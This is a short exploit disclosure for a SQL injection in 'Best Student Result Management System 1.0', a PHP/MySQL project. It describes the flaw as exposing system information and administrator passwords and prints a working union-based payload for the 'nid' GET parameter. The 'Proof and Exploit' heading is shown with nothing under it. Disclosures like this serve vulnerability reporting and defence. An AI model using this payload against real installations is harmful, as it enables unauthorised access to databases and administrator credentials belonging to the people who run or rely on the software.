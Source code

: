 #### Title: Best Student Result Management System 1.0 SQLi
#### Author: toyydsBT123
#### Date: 15.09.2022
#### Vendor: https://www.sourcecodester.com/users/mayurik
#### Software: https://www.sourcecodester.com/php/15653/best-student-result-management-system-project-source-code-php-and-mysql-free-download
#### Version: 1.0
#### Reference: https://github.com/toyydsBT123/One_of_my_take_on_SourceCodester/blob/main/Best-Student-Result-Management-System_1.0.poc.md

#### Description:
### The joint query injects the selected item into the query, and can obtain system information and administrator account password. The SQL injection vulnerability on this page severely compromises the security, confidentiality of the application by exposing the application to administrator level information compromise.

# Status: CRITICAL

### [+] Payloads:

``` 
GET
?nid=2' union all select null,user(),null,null-- -
```

## Proof and Exploit:
